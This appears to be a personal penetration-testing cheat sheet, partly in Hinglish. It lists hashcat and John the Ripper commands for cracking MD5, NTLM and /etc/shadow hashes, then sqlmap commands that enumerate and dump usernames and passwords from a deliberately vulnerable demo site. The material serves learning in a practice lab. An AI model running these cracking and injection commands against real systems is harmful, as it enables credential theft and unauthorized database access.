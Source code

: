 | 1] hashcat  tool |  |
| --- | --- |
| https://hashes.com/en/tools/hash_identifier |  |
| https://hashcat.net/wiki/doku.php?id=example_hashes |  |
| hashcat -m 0  5d41402abc4b2a76b9719d911017c592  /usr/share/wordlists/rockyou.txt |  |
|  |  |
| johntheripper tool |  |
| `john --wordlist=[path to wordlist] [path to file]` |  |
| `john --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt` |  |
| **Format-Specific Cracking** |  |
| `john --list=formats | grep -i 'md5'` |  |
| `john --list=formats | grep -i 'SHA256'` |  |
| **Uses** |  |
| `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt` |  |
| **break Ntlm hash** |  |
| john --list=formats | grep -i 'nt' |  |
| john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ntlm.txt |  |
| **Cracking Hashes from /etc/shadow** |  |
| `unshadow local_passwd local_shadow > etc_hashes.txt` | `/etc/passwd`        `/etc/shadow` |
|  |  |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# SMBMAP Tool uses

| command  | command explain |
| --- | --- |
| sqlmap -u http://testphp.vulnweb.com/ --crawl=3   --technique="U"   --dbs    |   `//-u = enter doman,using lable 3 max 5 hota hai. , U means union aise hi buniion,blind.   ,—dbs means data base.`   |
| sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" --dbs | Find Database name |
| sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" -D acuart --tables | Find tables when i have database name |
|  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" -D acuart -T users --columns | Find out coloum when i have table name. |
|  sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --technique="U" -D acuart -T users -C pass,uname --dump | Dump pass,uname |
| ——————————————————————————————— | —————————————————————————————— |
| Request capture in burpsuit and safe the request in txt formate in kali. |  |
| 1] hum  login page ka credencial fill ker ke burp ke request pe lege . |  |
| 2] use copy ker lege us request file ko aur  useka name vul-req dedege |  |
| gedit  vul_req |  |
| sqlmap -r vul_req -p uname --dbs | find database |
| sqlmap -r vul_req -p uname -D acuart --tables | find table  |
| sqlmap -r vul_req -p uname -D acuart -T users --coloumns | fine coloum |
